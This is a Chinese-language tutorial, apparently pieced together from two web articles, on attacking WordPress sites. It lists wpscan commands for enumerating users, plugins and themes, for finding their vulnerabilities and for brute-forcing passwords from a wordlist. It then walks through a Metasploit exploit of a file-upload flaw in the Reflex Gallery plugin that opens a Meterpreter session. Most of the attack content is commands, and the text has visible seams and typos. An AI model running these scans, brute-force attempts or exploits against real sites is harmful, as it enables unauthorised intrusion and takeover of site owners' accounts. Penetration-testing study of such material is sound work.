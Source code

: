 很多企业官网使用的WordPress搭建。
使用wpscan工具扫描历史漏洞和插件组件漏洞。
如：任意文件读取等。

kali中可以使用wpscan：
```text
wpscan --url https://www.xxxxx.wiki/
```

> 演示案例：

* 我们扫描192.168.43.104:8000这个站点（此站点存在一个WordPress进程）

![](https://pic3.zhimg.com/v2-b90cd10071461ee62a625f52f4698a20_r.jpg)

![](https://pic4.zhimg.com/v2-f30e534aa4bbe3e6d6580aa7c5b32aff_r.jpg)

## 五、扫描指定用户

* 格式：

```text
wpscan --url https://www.xxxxxxx.wiki/ --enumerate u
```

## 六、**暴力破解得到密码**

* **在暴力破解之前，需要提供一个字典文件**
* 格式：

```text
wpscan --url  https://www.xxxxx.wiki/  -e  u --wordlist 字典文件路径
```

## 七、**扫描插件漏洞**

* 插件可以扩展`WordPress`站点的功能，但很多插件中都存在安全漏洞，而这也会给攻击者提供可乘之机
* 我们可以使用下列命令扫描`WordPress`站点中安装的插件：

1. wpscan --url [https://www.xxxxx.wiki/](https://link.zhihu.com/?target=https%3A//www.xxxxx.wiki/) --enumerate p
2.
3. //备注：--url与-u参数相同，下面雷同

* 我们可以使用下列命令来扫描目标插件中的安全漏洞：

```text
wpscan --url https://www.xxxxx.wiki/ --enumerate vp
```

## 八、**主题漏洞扫描**

* 使用下列命令对主题进行扫描：

```text
wpscan --url https://www.xxxxx.wiki --enumerate t
```

> 演示案例：

![](https://pic1.zhimg.com/v2-3673956c30b6f8797b6bd8788b7e17ce_r.jpg)

* 看到总共数据库中的402个主题，发现了3个主题，但是发现的主题不一定有这么多，会在下面显示

![](https://picx.zhimg.com/v2-6e69696ff70649a8dd4a643e0653e2df_r.jpg)

* 使用下列命令扫描主题中存在的漏洞：

```text
wpscan --url https://www.xxxxxx.wiki --enumerate vt
```

## 九、**`TimThumbs`文件漏洞扫描**

```text
wpscan -u https://www.xxxxxx.wiki/ -enumerate tt
```

^


## 结合Metasploit利用插件中的漏洞

接下来，我们将用第一个插件中的任意文件上传漏洞来进行漏洞利用演示，该漏洞允许我们上传恶意文件并实现远程代码执行。

打开终端窗口并输入下列命令：

```
useexploit/unix/webapp/wp_reflexgallery_file_upload
msfexploit(wp_reflexgallery_file_upload) > set rhost 192.168.0.101
msfexploit(wp_reflexgallery_file_upload) > set targetURI /wordpress/
msfexploit(wp_reflexgallery_file_upload) > exploit
```

你将看到终端与目标设备建立了Meterpreter会话，你可以输入下列命令查看目标系统信息：

```
Sysinfo
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287971789768.png!small)

## 枚举WordPress用户名

我们可以在终端中输入下列命令来枚举WordPress用户名：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ --enumerate u
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972068549.png!small)

接下来工具将导出用户名数据表，你可以看到用户名以及对应的ID信息。

当然了，你也可以使用下列命令枚举出所有的内容：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ -e at -e ap -e u
–e at : enumerate all themes of targeted website
–e ap: enumerate all plugins of targeted website
–e u: enumerate all usernames of targeted website
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972309586.png!small)

## 使用WPScan进行暴力破解

在进行暴力破解攻击之前，我们需要创建对应的字典文件。输入下列命令：

```
./wpscan.rb –u http://192.168.0.101/wordpress/ --wordlist /root/Desktop/dict.txt --usernameadmin
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/1528797258105.png!small)

如果找到了相匹配的用户名与密码，工具将直接以admin:password的形式显示出来：

